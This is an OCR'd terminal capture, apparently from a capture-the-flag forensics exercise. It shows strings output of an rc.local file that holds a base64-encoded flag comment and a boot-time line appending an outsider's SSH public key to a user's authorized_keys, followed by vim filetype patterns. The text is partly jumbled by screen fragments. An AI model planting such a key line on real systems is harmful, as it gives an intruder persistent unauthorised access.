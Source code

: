 ```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: stringscommandoutput
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh                                                                       # Well played : c2hrQ1R
       │ Ge3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=                              
       │                                   echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1
       │ UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71
       │ BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5
       │ m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoa
       │ sXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authoriz
       │ ed_keys                                                                        ~                       
       │                                                         ~                                              
       │                                  ~                                                                     
       │           ~                                                                               ~            
       │                                                                    ~                                   
       │                                             ~                                                          
       │                      ~                                                                               ~ 
       │                                                                               ~                        
       │                                                        ~                                               
       │                                 ~                                                                      
       │          ~                                                                               "/etc/rc.local
       │ " 3L, 596C                                      1,1           All zed_keys> /home/k3vin/.ssh/authorized
       │ _keys && chmod 600 /home/k3vin/.ssh/authori
   2   │ ^ssh_config$
   3   │ setf sshconfig
   4   │ */.ssh/config
   5   │ /\.ssh/config$
   6   │ setf sshconfig
   7   │ ^ssh_config$
   8   │ setf sshconfig
   9   │ */.ssh/config
  10   │ /\.ssh/config$
  11   │ setf sshconfig
  12   │ ^sshd_config$
  13   │ setf sshdconfig
  14   │ ^sshd_config$
  15   │ setf sshdconfig
  16   │ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4j
       │ fEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B4
```